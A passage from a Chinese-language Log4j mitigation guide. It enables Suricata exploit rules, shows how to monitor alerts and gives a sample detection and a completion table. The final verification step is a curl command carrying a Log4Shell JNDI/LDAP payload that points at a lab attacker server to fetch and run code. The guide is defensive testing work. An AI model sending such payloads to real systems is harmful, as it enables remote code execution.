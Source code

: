 ```yaml
rule-files:
  - emerging-exploit.rules
  - emerging-policy.rules
```

------

### ✅ **步骤 4：重启 Suricata**

```bash
systemctl restart suricata
```

------

### ✅ **步骤 5：实时监控 Suricata 日志**

在 Suricata 中监控是否出现 Log4j 攻击报警：

```bash
docker exec -it suricata tail -f /var/log/suricata/fast.log
```

------

### ✅ **示例 Suricata 输出（成功）**

```text
[**] [1:2034659:2] ET EXPLOIT Apache log4j RCE Attempt [**]
[Classification: Attempted Administrator Privilege Gain] 
{TCP} 192.168.109.5:41160 -> 192.168.109.4:22220
```

------

## ✅ **阶段 1 完成标准**

| 步骤                      | 执行状态 | 结果               |
| ------------------------- | -------- | ------------------ |
| 禁用 JNDI 加载器          | ✅ 完成   | 已配置             |
| 限制 LDAP 和 RMI 出站连接 | ✅ 完成   | 连接被拦截         |
| 启用 Suricata 规则        | ✅ 完成   | 监控正常，触发报警 |

------

## 🚀 **缓解结果验证**

### 🔥 **1. 执行基础 Payload 测试（预期失败）**

```bash
curl -G http://192.168.109.4:22220//hello \
--data-urlencode 'payload=${jndi:ldap://192.168.109.5:1389/TomcatBypass/Command/Base64/YmF...}'
```
